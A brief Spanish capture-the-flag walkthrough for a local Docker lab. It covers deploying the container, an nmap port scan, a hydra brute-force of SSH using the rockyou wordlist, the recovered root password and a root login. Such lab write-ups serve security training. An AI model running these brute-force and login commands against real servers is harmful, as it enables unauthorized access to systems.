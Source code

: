 
------------------------
DESPLIEGUE 

```
sudo bash auto_deploy.sh breakmyssh.tar
```

![[Pasted image 20240915033045.png]]

--------------------
PROCEDIMIENTO

Tenemos la IP: `172.17.0.2`.


-------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Tenemos el puerto 22, SSH.

![[Pasted image 20240915033401.png]]

Como tenemos un puerto 22 vamos a usar hydra con el siguiente comando:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

Y nos sale lo siguiente:

![[Pasted image 20240915035220.png]]

password : estrella
y es root pues ya pondríamos :

```
ssh root@172.17.0.2
```

![[Pasted image 20240915035448.png]]


Y ya estamos adentro !!
